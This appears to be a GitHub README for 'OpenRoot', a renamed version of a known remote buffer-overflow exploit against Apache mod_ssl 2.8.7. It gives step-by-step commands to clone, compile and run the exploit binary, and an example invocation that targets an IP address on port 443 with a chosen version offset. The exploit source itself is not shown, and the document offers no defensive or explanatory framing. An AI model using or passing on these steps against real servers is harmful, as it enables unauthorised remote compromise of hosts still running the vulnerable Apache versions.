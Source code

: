 # Apache_mod_ssl-_2.8.7-_Remote-Buffer-Overflow
# OpenRoot
Original is OpenFu*&%$#, I change for something more elegant

## Usage

1. Download OpenRoot.c
```
git clone https://github.com/rony926/Apache_mod_ssl-_2.8.7-_Remote-Buffer-Overflow.git
```
2. Install ssl-dev library

```
apt-get install libssl-dev
```

3. It's Compile Time

````
gcc -o OpenRoot OpenRoot.c -lcrypto
````

4. Running the Exploit
```
./OpenRoot
```

5. See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6b option
./OpenRoot 0x6b [Target Ip] [port] -c 40

for example:
```
./OpenRoot 0x6b 192.168.80.145 443 -c 40
```
